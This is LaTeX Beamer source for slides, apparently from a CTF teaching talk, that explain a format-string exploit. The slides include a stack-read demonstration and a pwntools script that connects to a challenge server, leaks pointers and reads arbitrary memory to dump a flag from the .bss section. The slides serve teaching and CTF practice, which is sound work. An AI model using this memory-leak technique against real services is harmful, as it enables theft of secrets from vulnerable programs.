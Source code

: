 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag}

    \begin{lstlisting}[style=customc]
// OMG! Have you seen my .bss section?
flag3_ptr = getenv("FLAG3");
if(flag3_ptr){
    strncpy(flag3, flag3_ptr, sizeof(flag3));
    memset(flag3_ptr, 0, strlen(flag3_ptr));
}
    \end{lstlisting}
    
    \pause

    Idea: read memory and follow pointers multiple times

    \pause
    Note that:
    \begin{lstlisting}[style=customconsole, basicstyle=\tiny]
$ echo "AAAAAAAA-%19\$p" | ./fmtstr 
AAAAAAAA-0x4141414141414141
    \end{lstlisting}
    so we can place a pointer on the stack, and dereference it with \%s.
\end{frame}
\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag, continued}

    \begin{lstlisting}[style=customc]
from pwn import *
r = remote("ctf.pwnies.dk", 31337)
# leak some pointer from the stack
r.send("%p,"*33)
ptr = int(r.clean().split(",")[32], 16)
entrypoint_ptr = ptr + 0xb0 + 0x90 + 8

@MemLeak
def leak(addr):
    r.send("START%21$sSTOP".ljust(16) + p64(addr))
    r.recvuntil("START")
    return r.recvuntil("STOP", drop=True) + "\x00"

# locate the fmtstr program in memory
entrypoint = leak.q(entrypoint_ptr)
elfheader = entrypoint & ~0xfff # align down to page boundry
#dump to file, analyse with readelf
#write("elfheader", leak.n(elfheader, 1024))
#magic numbers found with readelf
bss = elfheader + 0x200dd8 + 0x290
#flag should be around here somewhere
flag = leak.n(bss, 128)
log.info("Flag: \"%s\"", flag.strip("\x00"))
    \end{lstlisting}
\end{frame}
\end{document}
